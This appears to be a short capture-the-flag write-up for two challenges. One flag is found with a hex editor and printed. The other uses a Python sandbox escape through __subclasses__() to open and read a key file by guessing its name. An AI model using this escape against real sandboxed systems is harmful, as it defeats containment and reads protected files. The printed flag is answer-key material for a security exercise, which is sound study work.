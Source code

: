 ## exploitation 100

Open in a hex editor and you will see the flag.

```flag{exploitation_is_easy!}```

## exploitation 200

There are bunch of guidelines about python sandbox escape from google. you can search on it and find your answer.

```
().__class__.__base__.__subclasses__() => find list of functions
you can just guess the file name for reading..
().__class__.__base__.__subclasses__()[??].open('flag','r').read() => fail
().__class__.__base__.__subclasses__()[??].open('key','r').read() => fail
().__class__.__base__.__subclasses__()[??].open('flag.txt','r').read() => fail
().__class__.__base__.__subclasses__()[??].open('key.txt','r').read() => success
```